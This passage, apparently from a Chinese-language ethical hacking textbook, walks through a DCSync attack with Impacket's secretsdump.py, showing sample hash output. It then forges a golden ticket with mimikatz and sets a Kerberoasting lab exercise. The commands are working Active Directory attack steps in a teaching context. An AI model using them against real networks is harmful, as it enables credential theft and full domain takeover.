*Impacket*是一个惊人的 Python 程序集合，它允许黑客执行网络攻击，包括 DC 同步攻击。你可以通过克隆 Impacket 的 Git 仓库来下载它：

```
git clone https://github.com/SecureAuthCorp/impacket
```

通过运行你刚刚克隆的*impacket*文件夹中的*secretsdump.py* Python 程序来执行 DC 同步攻击：

```
> secretsdump.py <Domain.local>/<username>:<password>@<local machine's IP address>

   Administrator:500:0b4a1b98eee5c792aad3b435b51404ee:2cbdec5023a03c12a35444486f09ceab:::
➊ krbtgt:502:aa4af3e2e878bda4aad3b435b51404ee:ba70fbbc74ca7d6db22fb2b715ebbf7a:::
```

每一行对应一个用户的密码哈希。➊处的那一行表示 krbtgt 用户。所有行的结构如下：`uid:rid:lmhash:nthash`，其中`uid`是用户的 ID，`rid`是相对标识符（一个识别用户角色的代码，例如管理员的值是 500），`lmhash`是 LAN 管理器哈希，它是 NTLM 哈希之前的哈希，而`nthash`代表 NTLM 哈希。由于`lmhash`仅使用七个不区分大小写的字符，因此很容易被破解；然而，它作为遗留用途被包含在内。

使用`nthash`来创建你的金票。以下命令创建票证并将其加载到内存中，以便可以在传递票证攻击中使用：

```
mimikatz # kerberos::golden /domain:<example.local> /sid:<SID> /user:<ADMIN

     USER ID> /krbtgt:<HASH> /ptt
```

在这里，我们添加了`/ptt`（传递票证）标志，这告诉 mimikatz 将票证与我们当前的会话关联。现在你可以使用新的管理员票证登录任何机器。

### **练习：Kerberoasting**

在本书的最后一个练习中，你将自行研究并执行一个攻击。你将执行的攻击叫做*Kerberoasting*，这是一种基于字典的攻击，旨在破解用于加密票据授予服务的密码哈希。一些服务与普通用户相关联，因此使用的是常规密码，而非计算机生成的密码。成功破解票据授予服务将为你提供该服务的密码，这个密码与用户密码相同。

设置一个 Windows 实验环境，包括一个 Windows 桌面虚拟机和一个 Windows 服务器，后者将充当域控制器。接下来，尝试对其执行一些攻击。要执行 Kerberoasting 攻击，请使用*getuserspns.py* impacket 脚本：

```
getuserspns.py <domain>/<username>:<password> -request
```
